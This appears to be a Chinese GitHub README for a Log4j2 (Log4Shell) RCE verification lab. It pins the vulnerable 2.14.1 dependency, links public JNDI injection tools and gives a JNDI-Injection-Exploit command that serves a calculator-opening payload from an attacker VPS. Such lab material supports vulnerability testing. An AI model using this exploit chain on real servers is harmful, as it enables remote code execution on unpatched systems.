




# Apache Log4j2 RCE 验证环境
> Since from 2021.12.09

## Some Ref
https://mp.weixin.qq.com/s/yck74F9p9QhVw_3ykzVoSg

## 搭建环境
maven引入相关包及存在漏洞版本范围
```xml
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-api</artifactId>
            <version>2.14.1</version>
        </dependency>
        <dependency>
            <groupId>org.apache.logging.log4j</groupId>
            <artifactId>log4j-core</artifactId>
            <version>2.14.1</version>
        </dependency>
```


## 检查
#### 利用dnslog探测是否使用


#### ldap结合jndi利用RCE
jdk版本有关，JDK 11.0.1、8u191、7u201、6u211之后需要手动设置trustURLCodebase为true
> 关于此详细学习可参考 https://blog.0kami.cn/2020/03/01/java/jndi-with-ldap/

利用方式，可结合jndi注入工具，例如[JNDI-Injection-Exploit](https://github.com/welk1n/JNDI-Injection-Exploit) 、[fastjson_rce_tool](https://github.com/wyzxxz/fastjson_rce_tool) 、 [JNDIExploit](https://github.com/feihong-cs/JNDIExploit) 
> 还可结合工具实现多种已公开回显方式、内存马注入方式

```bash
# 
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "open -a /System/Applications/Calculator.app"  -A your_vps_ip
```


#### Web
> TODO



#### About
https://github.com/apache/logging-log4j2/tags